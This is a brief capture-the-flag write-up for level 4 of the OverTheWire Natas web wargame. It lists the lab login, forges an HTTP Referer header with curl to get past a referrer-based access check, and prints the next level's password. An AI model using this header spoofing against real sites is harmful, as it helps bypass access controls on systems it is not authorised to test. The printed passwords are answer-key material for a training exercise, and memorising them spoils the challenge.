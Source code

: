 # natas level1
natas is CTF with web application.

## using credential is below.
- User:natas4
- Pass:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

check web site by lynx.
`lynx http://natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ@natas4.natas.labs.overthewire.org`

followings is message of this page.
~~~
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
~~~

~~~
curl http://natas4.natas.labs.overthewire.org -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ -H Referer:http://natas5.natas.labs.overthewire.org/
~~~
I got password of natas5 in this page.
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
